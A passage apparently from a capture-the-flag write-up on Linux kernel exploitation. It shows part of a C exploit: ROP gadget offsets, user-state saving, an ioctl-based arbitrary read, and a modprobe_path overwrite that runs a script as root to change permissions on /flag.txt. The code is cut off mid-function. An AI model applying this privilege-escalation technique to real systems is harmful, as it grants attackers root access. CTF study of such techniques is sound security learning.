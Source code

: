 Instead of reimplementing the wheel, we can simply use the `swapgs_restore_regs_and_return_to_usermode()` function to return to userspace gracefully.

Do note that we will also have to save and restore our userspace registers to return to user-mode gracefully.

The final payload is

```python
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdlib.h>

#define pop_rdi (kbase+0x1d675)
#define pop_rsi (kbase+0x6ff0c)
#define pop_rdx (kbase+0x7baf4a)
#define swapgs_iret (kbase+0x1001126)

#define copy_from_user (kbase+0x6e5d00)
#define modprobe_path (kbase+0x208c500)

int fd = 0;
unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void win() {
        // prepare malicious modprobe path
        system("echo -e '#!/bin/sh\nchmod 777 /flag.txt' > /tmp/xpl.sh");
        system("chmod +x /tmp/xpl.sh");
        system("echo -e '\xff\xff\xff\xff' > /tmp/pwn");
        system("chmod +x /tmp/pwn");

        // call /tmp/xpl.sh with root permissions via modprobe_path
        system("/tmp/pwn");
        system("cat /flag.txt");
}

unsigned long user_rip = (unsigned long)win;

void perror(const char* msg) {
        puts(msg);
        exit(-1);
}

unsigned long aar(unsigned long ptr) {
        unsigned long leak[264/8] = {0};
        leak[0] = ptr;
        ioctl(fd, 0x1337, leak);
        return leak[1];
```